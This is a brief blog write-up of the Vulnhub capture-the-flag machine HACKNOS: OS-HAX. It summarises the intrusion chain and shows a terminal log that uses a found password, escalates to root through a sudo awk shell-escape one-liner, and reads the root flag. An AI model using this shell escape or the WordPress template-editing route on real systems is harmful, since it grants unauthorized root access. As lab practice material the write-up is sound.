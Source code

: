 ```yaml
---
layout: post
title:  "Vulnhub: HACKNOS: OS-HAX"
date:   2021-02-06 21:00:00 +1100
category: hacking
---
```


## HACKNOS: OS-HAX
*Difficulty: Intermediate*

This is [HACKNOS: OS-HAX](https://www.vulnhub.com/entry/hacknos-os-hax,389/) from Vulnhub. 

Image from website > exiftool > hidden directory > brainfuck password > wordpress login > edit 404.php > shell > privesc

{% highlight shell %}
www-data@jax:/dev/shm$ su web
su web
Password: Hacker@4514

$ sudo -u root /usr/bin/awk 'BEGIN {system("/bin/sh")}'
sudo -u root /usr/bin/awk 'BEGIN {system("/bin/sh")}'
# cd /root
cd /root
# ls -lash
ls -lash
total 28K
4.0K drwx------  2 root root 4.0K Nov  1  2019 .
4.0K drwxr-xr-x 22 root root 4.0K Nov  1  2019 ..
4.0K -rw-------  1 root root  607 Nov  1  2019 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Nov  1  2019 .bashrc
4.0K -rw-r--r--  1 root root  651 Nov  1  2019 final.txt
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root 1.1K Nov  1  2019 .viminfo
# cat final.txt;id;hostname
cat final.txt;id;hostname
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Rahul_Gehlaut  =>> https://www.linkedin.com/in/rahulgehlaut/

Web_Site ==>> http://jameshacker.me
uid=0(root) gid=0(root) groups=0(root)
jax

{% endhighlight %}

Can't see myself doing another one of these any time soon.
